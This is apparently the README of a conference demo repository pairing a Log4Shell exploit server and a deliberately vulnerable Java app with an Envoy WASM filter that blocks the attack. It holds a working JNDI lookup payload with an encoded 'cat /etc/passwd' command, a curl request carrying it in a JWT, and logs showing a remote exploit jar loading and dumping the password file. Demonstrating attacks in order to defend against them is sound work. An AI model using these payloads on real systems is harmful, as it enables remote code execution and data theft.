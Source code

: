 # ZTA and DevSecOps for Cloud Native Applications

This repository contains the materials for the *Service Mesh as the Security Kernel for Zero Trust Platforms*
demo presented at the NIST ZTA conference 2022.

## Contents

This demo contains three main applications:

* [log4shell-ldap](log4shell-ldap): A malicious LDAP server that can be used to exploit the `Log4Shell` CVEs.
* [vulnerable-app](vulnerable-app): An application that uses an old and unsecure Java runtime and a vulnerable
   version of the `log4j` library.
* [wasm-patch](wasm-patch): An [Envoy](https://www.envoyproxy.io/) [WASM extension](https://github.com/proxy-wasm/spec) written
  in Go using the [proxy-wasm-go-sdk](https://github.com/tetratelabs/proxy-wasm-go-sdk) that inspects requests and
  rejects those that contain `Log4Shell` payloads.

See the [hacking](#hacking) section for details about how to customize them.

## Build requirements

* [Go 1.17](https://go.dev/dl/) or higher.
* [TinyGo](https://tinygo.org/) to compile and build the WASM plugin.

## Hacking

The behaviour of the applications can be customized by modifying the [GreetingsServlet.java](vulnerable-app/src/main/java/io/tetrate/log4shell/vulnerable/GreetingsServlet.java)
(vulnerable application) and the [Log4shellExploit.java](log4shell-ldap/exploit/src/main/java/io/tetrate/log4shell/exploit/Log4shellExploit.java) (exploit).

The current implementation of the exploit reads malicious LDAP lookup strings and parses a Base64-encoded command that is then executed. For example, the
malicious string `"${jndi:ldap://log4shell:1389/exec/Y2F0IC9ldGMvcGFzc3dkCg==}"` will instruct the exploit to execute a `cat /etc/passwd` command. The vulnerable
application logs the value of the `subject` claim in a JWT token, so if the malicious payload is set there, the exploit will be triggered.

### Running applications locally

The three applications can be easily run locally, although you won't be able to try all the [Istio](https://istio.io/)
features showcased in the demo. However, it is enough to get eh applications running and to be able to play with them
and the WASM plugin.

You can start he applications locally with:

```
make -C wasm-patch clean compile  # docker-compose needs the WASM binary to have been compiled
docker-compose build
docker-compose up
```

This will build the necessary images and start all them. The vulnerable application is exposed as follows:

* `http://localhost:8080` - Direct access tot eh vulnerable application.
* `http://localhost:8000` - Access through Envoy, which includes filtering with the WASM plugin.

To tst it, you can send a request to the application or Envoy proxy with a JWT Bearer token in the Authorization header.
The contents of the "sub" claim in the provided token will trigger the attack vector, if present. For example:

**Executing the requests directly against the vulnerable app**

```
$ curl http://localhost:8080
Welcome, anonymous!

$ curl http://localhost:8080 -H "Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJPbmxpbmUgSldUIEJ1aWxkZXIiLCJpYXQiOjE2NDI1ODI2MjIsImV4cCI6MTY3NDExODYyMiwiYXVkIjoid3d3LmV4YW1wbGUuY29tIiwic3ViIjoiJHtqbmRpOmxkYXA6Ly9sb2c0c2hlbGw6MTM4OS9leGVjL1kyRjBJQzlsZEdNdmNHRnpjM2RrQ2c9PX0ifQ.ktEyOh8O3QMH6amqZtPsYHjtDeFVXmgKHLt-s0t2ckw"
Welcome, ${jndi:ldap://log4shell:1389/exec/Y2F0IC9ldGMvcGFzc3dkCg==}!
```
We can see that the exploit was triggered by inspecting the vulnerable app logs:
```
log4shell_1   | received request from 192.168.160.3:37650
log4shell_1   | delivering malicious LDAP payload: {cn=pwned, exec/Y2F0IC9ldGMvcGFzc3dkCg== [{cn [pwned]} {javaClassName [io.tetrate.log4shell.exploit.Log4shellExploit]} {javaCodeBase [http://log4shell:3000/log4shell-exploit-1.0-SNAPSHOT.jar]} {objectclass [javaNamingReference]} {javaFactory [io.tetrate.log4shell.exploit.Log4shellExploit]}]}
vulnerable_1  | /!\ /!\ /!\ You have been pwned!
vulnerable_1  | /!\ /!\ /!\ RCE exploit loaded
vulnerable_1  | /!\ /!\ /!\ Executing: cat /etc/passwd
vulnerable_1  |
vulnerable_1  | root:x:0:0:root:/root:/bin/bash
vulnerable_1  | daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
vulnerable_1  | bin:x:2:2:bin:/bin:/usr/sbin/nologin
vulnerable_1  | sys:x:3:3:sys:/dev:/usr/sbin/nologin
vulnerable_1  | sync:x:4:65534:sync:/bin:/bin/sync
vulnerable_1  | games:x:5:60:games:/usr/games:/usr/sbin/nologin
vulnerable_1  | man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
vulnerable_1  | lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
vulnerable_1  | mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
vulnerable_1  | news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
vulnerable_1  | uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
vulnerable_1  | proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
vulnerable_1  | www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
vulnerable_1  | backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
vulnerable_1  | list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
vulnerable_1  | irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
vulnerable_1  | gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
vulnerable_1  | nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
vulnerable_1  | systemd-timesync:x:100:103:systemd Time Synchronization,,,:/run/systemd:/bin/false
vulnerable_1  | systemd-network:x:101:104:systemd Network Management,,,:/run/systemd/netif:/bin/false
vulnerable_1  | systemd-resolve:x:102:105:systemd Resolver,,,:/run/systemd/resolve:/bin/false
vulnerable_1  | systemd-bus-proxy:x:103:106:systemd Bus Proxy,,,:/run/systemd:/bin/false
vulnerable_1  | messagebus:x:104:108::/var/run/dbus:/bin/false
vulnerable_1  |
vulnerable_1  | 13:40:09.410 [qtp1316061703-12] INFO  io.tetrate.log4shell.vulnerable.GreetingsServlet - welcoming user: pwned!
```

**Executing the requests against the Envoy proxy**

When running the requests through the proxy we can see the access being denied as the traffic is filtered by the WASM plugin.

```
$ curl http://localhost:8000
Welcome, anonymous!

$ curl http://localhost:8000 -H "Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJPbmxpbmUgSldUIEJ1aWxkZXIiLCJpYXQiOjE2NDI1ODI2MjIsImV4cCI6MTY3NDExODYyMiwiYXVkIjoid3d3LmV4YW1wbGUuY29tIiwic3ViIjoiJHtqbmRpOmxkYXA6Ly9sb2c0c2hlbGw6MTM4OS9leGVjL1kyRjBJQzlsZEdNdmNHRnpjM2RrQ2c9PX0ifQ.ktEyOh8O3QMH6amqZtPsYHjtDeFVXmgKHLt-s0t2ckw"
Access Denied
```

## NIST demo setup

To replicate the NIST demo, follow the instructions in the [SETUP.md](SETUP.md) file.